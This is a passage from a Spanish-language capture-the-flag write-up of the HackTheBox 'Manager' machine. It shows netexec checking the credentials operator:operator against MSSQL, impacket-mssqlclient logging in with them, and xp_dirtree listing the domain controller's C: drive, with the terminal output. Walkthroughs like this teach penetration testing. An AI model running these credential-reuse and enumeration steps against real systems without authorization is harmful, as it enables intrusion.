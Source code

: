 Con la herramienta  [netexec](https://github.com/Pennyw0rth/NetExec){:target="_blank"} se lleva a cabo una validación para determinar qué otros servicios se pueden acceder utilizando estas credenciales. Se observa que también se tiene acceso a MSSQL.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# netexec mssql 10.10.11.236 -u operator -p operator
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator 
```

con los scripts de [impacket](https://github.com/fortra/impacket/tree/master){:target="_blank"} en este caso, con impacket-mssqlclient, para establecer una conexión utilizando las credenciales del usuario "operator".

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# impacket-mssqlclient -windows-auth manager.htb/operator:operator@manager.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> 

```

Después de realizar una enumeración y basándonos en el artículo de [GOAD - part 7 - MSSQL](https://mayfly277.github.io/posts/GOADv2-pwning-part7/#coerce-and-relay){:target="_blank"}  de [M4yFly](https://twitter.com/M4yFly){:target="_blank"} se observa que es posible listar directorios en el sistema.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# impacket-mssqlclient -windows-auth manager.htb/operator:operator@manager.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> exec master.sys.xp_dirtree 'c:\',1,1
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   

Documents and Settings          1      0   

inetpub                         1      0   

PerfLogs                        1      0   

Program Files                   1      0   

Program Files (x86)             1      0   

ProgramData                     1      0   
```